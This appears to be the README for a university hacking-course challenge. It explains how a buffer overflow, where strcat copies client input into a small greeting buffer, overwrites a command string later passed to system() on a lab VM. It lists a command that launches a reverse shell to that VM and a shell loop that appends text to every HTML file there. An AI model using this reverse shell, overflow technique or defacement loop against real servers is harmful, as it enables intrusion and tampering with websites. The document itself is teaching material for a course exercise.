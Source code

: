 # MU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./hack_terminal` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.
Run `python3 reverse_shell.py 192.168.56.101 1234` to launch a reverse shell of the VM.

## Explanations

The final goal of this challenge is to manage to write our name on the html page hosted at the IP address `192.168.56.101`.

Let's look at the 3 first strings declared at the beginning of the code source :
```
char buf[256] = {0};
char command[] = "uptime | sed 's/.*up \[^,]*\, .*/\\1/'";
char greeting_text[128];
...
strcat(greeting_text, buf);
...
system(command);
```
`buf` contains the data sent by a client and is then copied in `greeting_text`. By experimentation, sending a too long name to the VM breaks the latter's answer about the duration the computer has been running. As `greeting_text` has a smaller length in the memory than `buf`, copying `buf` may dangerously overwrite `command` which would be stored right after `greeting_text` in the memory then. Thus, a vulnerability is to send a big enough amount of data to the server until overwritting `command` and run whatever shell command one wants on the VM.

The file _hack_terminal.c_ is a terminal-like program of the VM. By executing  `./hack_terminal`, one will be able to run shell commands on the VM as if he/she was actually typing in the VM's terminal. To add a name to the page hosted at the IP address `192.168.56.101`, just type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` in the "hacked terminal"; this command finds all HTML files and edits them by ending at the end `YOUR NAME`.
